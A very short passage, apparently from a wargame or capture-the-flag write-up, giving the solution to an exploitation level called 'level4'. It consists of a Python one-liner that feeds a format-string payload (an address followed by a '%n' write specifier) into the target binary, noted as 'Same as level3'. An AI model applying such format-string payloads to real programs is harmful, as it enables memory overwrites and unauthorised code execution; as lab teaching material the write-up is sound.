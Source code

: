 ```shell
(python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"'; cat -) | ./level4
```
Same as level3.
